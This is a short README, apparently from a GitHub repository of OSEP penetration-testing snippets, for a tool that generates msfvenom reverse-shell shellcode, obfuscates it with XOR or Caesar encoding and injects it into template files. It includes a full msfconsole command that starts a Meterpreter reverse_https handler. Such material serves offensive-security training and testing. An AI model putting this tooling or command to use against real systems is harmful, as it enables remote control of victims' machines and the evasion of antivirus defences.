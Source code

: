 # Shellcode Encoder

## Usage

Run the encoding script and follow the prompts:

python encoding_script.py
The script will:
- Generate shellcode using msfvenom (e.g., reverse_https/reverse_tcp payload)
- Encode the shellcode using XOR, Caesar, or a custom encoding method
- Inject the encoded shellcode between markers in template files and save updated files in the current directory
- Output an msfconsole command to start the appropriate Metasploit handler
Example msfconsole output:
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"


## Source
https://github.com/chvancooten/OSEP-Code-Snippets

